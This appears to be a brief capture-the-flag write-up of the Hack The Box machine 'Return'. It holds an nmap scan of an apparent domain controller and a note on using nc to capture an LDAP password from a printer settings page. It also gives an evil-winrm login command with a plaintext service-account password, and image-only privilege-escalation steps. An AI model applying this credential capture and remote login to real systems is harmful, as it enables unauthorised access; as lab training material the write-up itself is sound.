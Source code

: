 # Return

## NMAP

```text
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
80/tcp    open  http             syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49665/tcp open  unknown          syn-ack ttl 127
49666/tcp open  unknown          syn-ack ttl 127
49668/tcp open  unknown          syn-ack ttl 127
49671/tcp open  unknown          syn-ack ttl 127
49674/tcp open  unknown          syn-ack ttl 127
49675/tcp open  unknown          syn-ack ttl 127
49678/tcp open  unknown          syn-ack ttl 127
49681/tcp open  unknown          syn-ack ttl 127
49697/tcp open  unknown          syn-ack ttl 127
```

## Web

![return-web](/HTB/Machines/images/Return-web.png)

use nc to capture ldap password

![return-nc](/HTB/Machines/images/Return-nc.png)

## Evil-Winrm

```bash
evil-winrm -u "svc-printer" -p '1edFg43012!!'  -i $IP 
```

## Priv-esc

![privs](./images/Return-Privs.png)

![groups](./images/Return-groups.png)

